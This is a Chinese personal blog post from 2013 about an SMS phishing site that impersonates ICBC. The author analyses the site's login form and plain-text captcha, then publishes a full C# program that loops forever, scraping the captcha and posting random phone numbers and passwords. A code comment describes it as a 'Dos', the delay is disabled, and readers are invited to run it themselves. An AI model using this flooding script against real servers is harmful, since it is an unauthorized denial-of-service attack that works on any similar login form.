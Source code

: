 title: 今天把骗子耍了一把
date: 2013-09-13 16:52:50
categories: 学习
tags:
---

## 事由

下午收到一条短信，内容是“尊敬的用户， 您的电子密码器于次日失效！请尽快进入我行手机维护网站wap.95588bm.com更新！【工 行 】”，一看发件人是：+8618193326403，再加上本人也不用工行的银行卡，很明显的是骗人的短信嘛。

<!--more-->

做过Web的人应该也清楚这个网站应该就是钓鱼网站了。

好奇的打开网站看了看：

![主页面](/images/bm_main.png)

又看了下各个登陆链接的入口，发现都是一样的，点开看看了：

![登陆页面](/images/bm_login.png)

随便输入了个手机号和密码，填写验证码，点登陆后：

![登陆页面](/images/bm_run.png)

是个模拟升级的页面，骗人的。

本人向来痛恨这人骗人的行为，心想，我何不写个小程序，向他提交随机的手机号和假的密码，让程序不停的提交表单，干扰骗子，用来解恨。

## 开始动手——收集信息

从登陆页面的html代码入手，发现其验证码是纯文本的，这样的话验证码就好办了，至少不用搞什么图片验证码识别了：

![代码分析](/images/bm_analysis.png)

使用Fiddler跟踪提交的表单信息：

![Fiddler跟踪](/images/bm_trace.png)

好了，到此我们已经知道了他的表达提交地址和方式了，由于这个网站对验证码做了服务端验证，所以还需要提交正确的验证码。

## 分析开发步骤

1. 首先要解决Http请求的问题，会用到Get请求和Post请求，这个简单，可以用.Net自带的HttpWebRequest搞定
2. 需要从html代码中获取验证码，我使用了HtmlAgilityPack来提取（用它简单方便）
3. 生成随机的手机号和密码，这个也不麻烦，采用随机数弄一下就行了
4. 拼接post请求的信息，写个死循环重复提交虚假信息，就可以了

## 主要代码

核心的处理逻辑不算复杂，代码量也不大，为了快速实现功能，直接写到Main函数中了，代码如下：

```
/// <summary>
/// Dos一个骗人的网址，向网址中提交随机的手机号和密码，干扰骗子网站
/// ^O^，让你在作恶
/// </summary>
class Program
{
    static Random random = new Random();

    static void Main(string[] args)
    {
        string url = "http://wap.95588bm.com/cn/login.asp";
        // 这个IBrowser和DefaultBrowser是我很久前封装好的，用于发送Http请求的，下面有整个代码的链接，这就不在介绍了
        IBrowser browser = new DefaultBrowser(); 
        HtmlDocument doc = new HtmlDocument();

        int count = 0;
        while (true)
        {
            try
            {
                string html = browser.GetResponseHtml(new Uri(url), HttpVerb.GET, null);
                doc.LoadHtml(html);
                // 获取验证码，居然是纯文本的，不过倒好，就不用图片识别了
                string validCode = doc.DocumentNode.SelectSingleNode(".//td[@align='center']").InnerText;
                string data = String.Format("logonCardNum={0}&logonCardPsw={1}&netType=130&verimg={2}&mysub=",
                    RndNum(),                       // 手机号
                    random.Next(100000, 999999),    // 6位随机密码
                    validCode);                     // 验证码
                // post提交虚假数据
                var res = browser.GetResponseHtml(new Uri("http://wap.95588bm.com/cn/login.asp?action=checklogin"),
                    HttpVerb.POST, data);
                Console.ForegroundColor = ConsoleColor.Green;
                Console.WriteLine(res);
            }
            catch (Exception ex)
            {
                Console.ForegroundColor = ConsoleColor.Red;
                Console.WriteLine(ex.Message);
            }

            count++;
            Console.ForegroundColor = ConsoleColor.Yellow;
            Console.WriteLine("请求次数：" + count);
            //Thread.Sleep(random.Next(1000, 3000));
        }
        Console.ReadLine();
    }

    /// <summary>
    /// 随机生成11位手机号
    /// </summary>
    /// <returns></returns>
    static string RndNum()
    {
        string result = "";
        string[] prefix = new string[] { "151", "186", "131", "156", "168", "166", "137", "138", "139", "133" };
        result += prefix[random.Next(10)];
        for (int i = 0; i < 8; i++)
        {
            result += random.Next(10).ToString();
        }
        return result;
    }
}
```

提交成功后，对方的服务器会返回如下html字符串：

```
<meta http-equiv="refresh" content="0;URL=tjchongzhi.asp?cname=15131988584">
```

这是将当前页面刷新成自动显示升级的页面了，表示我们已经成功将随机的手机号和密码提交到对方服务器了。

程序运行效果如下：

![程序运行结果](/images/bm_result.png)

看着程序不停的提交虚假信息，心里那是个爽呀。

奉上源代码，大家也玩玩：